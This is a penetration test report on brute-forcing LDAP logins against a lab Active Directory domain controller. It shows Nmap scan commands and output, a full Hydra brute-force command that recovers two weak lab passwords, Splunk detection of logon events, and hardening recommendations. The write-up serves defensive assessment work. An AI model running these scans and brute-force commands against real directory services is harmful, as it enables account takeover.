



# Brute force attack

# Brute Force Attack on Active Directory

## 1. Test Objectives

This penetration test aims to evaluate the robustness of the Active Directory authentication mechanism against a brute-force attack, as well as the ability of the Splunk SIEM to detect and correlate events generated during access attempts unauthorized.

## 2. Scope of the Assessment

The assessment perimeter includes: 

- The Windows Server domain controller
- The LDAP/AD authentication service
- Associated security policies
- Detection and correlation of events via Splunk

No destructive or unauthorized tests were performed.

## 3. Context and Environment

The environment consists of: 

- An Active Directory domain controller (DC1)
- A Parrot Security 6.4 Linux attack workstation
- A log collection infrastructure integrated with Splunk

## 4. Tools Used

### 4.1 Hydra 9.4

Hydra is an open-source auditing tool for testing the robustness of mechanisms
Authentication is performed by executing repeated login attempts over various protocols. It is commonly used in legitimate audits to assess resistance to brute-force attacks and to verify the presence of protective mechanisms such as password complexity or account locking.

### 4.2 Nmap 7.94SVN

Nmap is an open-source auditing tool designed to analyze and map networks. It allows you to identify active hosts, detect open ports and associated services, and observe how systems respond to network requests.

## 5. Preliminary Verification - Nmap Analysis

Before the controlled attack phase, an Nmap scan was performed to confirm that port 389/tcp (LDAP) was open on the domain controller and to determine the version being used. This step served solely as technical validation to ensure proper targeting of the tested service in order to maximize the effectiveness of the attack.

### Port Scan

```
sudo nmap -p 389 172.20.20.1 -sV -Pn

Starting Nmap 7.92 ( https://nmap.org ) at 2025-12-03 13:30 CET
Nmap scan report for 172.20.20.1
Host is up (0.0014s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap ****   Microsoft Windows Active Directory LDAP (Domain: ad.infra.labo0., Site: Default-First-Site-Name)
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### LDAP Version

```
sudo nmap --script ldap-rootdse -p 389 -sV 172.20.20.1 -Pn

Starting Nmap 7.92 ( https://nmap.org ) at 2025-12-03 13:12 CET
Nmap scan report for 172.20.20.1
Host is up (0.0018s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: ad.infra.labo, Site: Default-First-Site-Name)
| ldap-rootdse:
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=ad,DC=infra,DC=labo
|       ldapServiceName: ad.infra.labo:dc1$@AD.INFRA.LABO
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2

```

## 6. Target of the Evaluation

The target is the protocol LDAP v3

- **IP Address:** 172.20.20.1/24
- **Role:** Active Directory domain controller
- **Function:** Centralized authentication

Unprotected access to this service could allow an attacker to obtain valid domain credentials.

## 7. Methodology

A brute-force attack simulation was performed from the Parrot Security host using two wordlists:

- A custom username list
- A list of passwords based on common patterns.

The goal is not to actually compromise an account, but to evaluate

the system's reaction and the effectiveness of the SIEM.

### Hydra Command

```
sudo hydra -L username.txt -P pass.txt ldap3://172.20.20.1 -o result.txt

Hydra v9.4 (c) 2022by van Hauser/THC & David Maciejak - Pleasedo not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-10 11:18:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9825 login tries (l:131/p:75), ~615 tries per task
[DATA] attacking ldap3://172.20.20.1:389/
[389][ldap3] host: 172.20.20.1   login: bob   password: Test1234=
[389][ldap3] host: 172.20.20.1   login: Malory   password: Test1234=
[STATUS] 8577.00 tries/min, 8577 tries in 00:01h, 1248 to do in 00:01h, 16 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-10 11:19:37
```

## 8. Results and Observations

### The LDAP service generated Windows Event :

- ID 4625 (authentication failures) Record number 415274
    
    
    
    
    

- ID 4624 (authentication success) Record number 415271
    
    
    
    
    

- Logs were correctly transmitted to Splunk.
    
    
    
    
    
- Splunk successfully detected anomalous behavior typical of
brute-force activity.
    
    
    
    
    

## 9. Recommendations

### 9.1 Restrict Access to Port 389 & Enable LDAP Signing + Channel Binding

Port 389 uses the unencrypted LDAP protocol, which means that information (such as user credentials) is transmitted in plain text and can be intercepted.

LDAP cannot be completely shut down or blocked overnight because some internal applications may still depend on LDAP and some servers may also make legitimate requests.

You can configure the firewall to allow access only to legitimate IP addresses or subnets.

While waiting for a full migration to port 636, StartTLS must be enabled to encrypt and Signing to sign each communication, ensuring the integrity of exchanges.

### 9.2 Enforce the Use of LDAPS (Port 636)

The LDAPS protocol fully encrypts communications, unlike port 389.
LDAPS is more robust and easier to manage than StartTLS and Signing.

### 9.3 Strengthen Password Policy

For passwords chosen by users: minimum 8 characters (NIST)
Accept passphrases including: spaces, various characters, Unicode characters. (NIST)
Use a blacklist to reject passwords that are too common, already compromised, or used very frequently. (NIST)
